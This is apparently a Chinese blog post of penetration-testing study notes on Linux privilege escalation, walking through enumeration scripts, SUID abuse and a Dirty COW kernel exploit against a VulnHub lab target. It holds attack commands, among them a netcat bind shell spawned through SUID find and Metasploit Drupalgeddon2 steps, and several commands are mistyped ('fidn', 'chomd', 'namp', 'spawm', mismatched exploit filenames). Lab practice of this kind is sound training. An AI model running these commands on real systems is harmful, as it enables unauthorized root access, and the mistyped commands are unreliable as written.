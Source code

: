 ```yaml
---
layout: post
title: '权限提升一'
subtitle: 'Linux脏牛内核漏洞&SUID&信息收集'
date: 2021-09-10
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 权限提升 
---
```


### 权限提升-Linux脏牛内核漏洞&SUID&信息收集

> 案例一：linux提权自动化脚本利用-4个脚本

两个信息收集：LinEnum、linuxprivchecker
两个漏洞探针：linux-exploit-suggester、linux-exploit-suggester2 //chmod +x 文件名 ------提权


> 案例二

漏洞成因：chmod u+s给予了suid u-s删除了suid
使程序在运行中受到了suid root权限的执行过程导致的
提权过程：探针是否有SUID（手工或脚本）-特定SUID利用-利用吃瓜-GG

	find / -user root -perm -4000 -print 2>/dev/null
	fidn / -perm -u=s -type f 2>/dev/null
	find / -user root -perm -4000 -exec ls -ldb {} \;

查看是否有下面的文件

	Nmap
	Vim
	find
	Bash
	More
	Less
	Nano
	cp

找到find，借助find命令执行[参考](https://pentestlab.blog/2017/09/25/suid-executables/)

	touch xiaodi
	
	find xiaodi -exec whoami \;
	find xiaodi -exec netcat -lvp 5555 -e /bin/sh \;

> 案例三 linux提权本地配合内核漏洞演示-Mozhe

提权过程：过程-获取可利用漏洞-下载或上传EXP-编译EXP-给权限执行-GG

	gcc 45010.c -o 45010
	
	chomd +x 45010
	
	./45010  
	
	id

> linux提权脏牛内核漏洞演示-linux-exploit-suggester

内核提权整个过程：（linux-exploit-suggester获取信息哦）

vulnhub靶机-探针目标-CMS漏洞利用-脚本探针提权漏洞-利用内核提权-GG

内核漏洞提权过程：寻可用-下exp-上/tmp-编译exp-执行（无权限用chmod）

	namp 192.168.76.0/24
	namp -pl-65535 192.168.76.141
	search drupal
	use exploit/unix/webapp/drupal_drupalgeddon2
	set rhost 192.168.76.141
	set rport 1898
	set target 0
	run
	upload /tmp/dcow.cpp /tmp/40837.cpp
	g++ -Wall -pedantic -O2-std=c++11 -pthread -o dcow 40847.cpp -lutil
	python -c 'import pty;spawm("/bin/bash")'
	./docw
